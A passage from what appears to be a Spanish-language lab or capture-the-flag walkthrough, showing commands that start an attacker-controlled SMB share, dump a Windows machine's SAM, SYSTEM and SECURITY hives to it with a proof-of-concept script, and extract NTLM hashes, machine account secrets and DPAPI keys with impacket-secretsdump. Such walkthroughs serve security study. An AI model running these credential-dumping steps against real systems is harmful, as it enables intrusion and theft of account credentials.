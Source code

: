 Vamos con `impacket-smbserver` a crear temporalmente un servidor SMB para copiar los archivos que vamos a dumpear.
```console
$ sudo impacket-smbserver -smb2support smbFolder .
```

Y el PoC funciona a la perfección aparentemente.
```console
$ python3 reg.py zximena448:"internet"@192.168.182.4 backup -p '\\192.168.182.5\smbFolder\'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation 

Dumping SAM hive to \\192.168.182.5\smbFolder\\SAM
Dumping SYSTEM hive to \\192.168.182.5\smbFolder\\SYSTEM 
Dumping SECURITY hive to \\192.168.182.5\smbFolder\\SECURITY
```

Vemos los tres archivos.
```console
 ls
SAM  SECURITY  SYSTEM
```

Así que ahora con `impacket-secretsdump` podemos dumpear el valor de la SAM
```console
$ impacket-secretsdump LOCAL -system SYSTEM -security SECURITY -sam SAM
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x0c7ad5e1334e081c4dfecd5d77cc2fc6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:0bef7790d333df3e4328f99e30c304cbb4a7485fffa8e3a777ce7243673a45aa52aa9ee08709043f64a8ca47610941f3c6889ea546d236dd70b20a333d070758094fe50e9b8295e3dcfef603d096d2464b403c47b116abdbac18b3634694c5f02991f9dcef67d1322939b37014a6d7a72dad3466962db2f76447a66481766bf48580f6702229f353fd3b0f3adeb2148c90520d05cd2632b14960c3391ee5fc625dafd3a36050392a75b3e472139203291f364eb9c4df32fcc882a411ef6a7755aad4435d8ea6b30f49ccbfd60e6bcf14684d6813d9397cf35a2e124c35fc8207bb6d75fb82ffae8d83477970dc9f88dd
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:af48f2010d257a514430b66fa469a554
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x829d1c0e3b8fdffdc9c86535eac96158d8841cf4
dpapi_userkey:0x4813ee82e68a3bf9fec7813e867b42628ccd9503
[*] NL$KM 
 0000   44 C5 ED CE F5 0E BF 0C  15 63 8B 8D 2F A3 06 8F   D........c../...
 0010   62 4D CA D9 55 20 44 41  75 55 3E 85 82 06 21 14   bM..U DAuU>...!.
 0020   8E FA A1 77 0A 9C 0D A4  9A 96 44 7C FC 89 63 91   ...w......D|..c.
 0030   69 02 53 95 1F ED 0E 77  B5 24 17 BE 6E 80 A9 91   i.S....w.$..n...
NL$KM:44c5edcef50ebf0c15638b8d2fa3068f624dcad95520444175553e85820621148efaa1770a9c0da49a96447cfc896391690253951fed0e77b52417be6e80a991
[-] NTDSHashes.__init__() got an unexpected keyword argument 'ldapFilter'
[*] Cleaning up... 
```
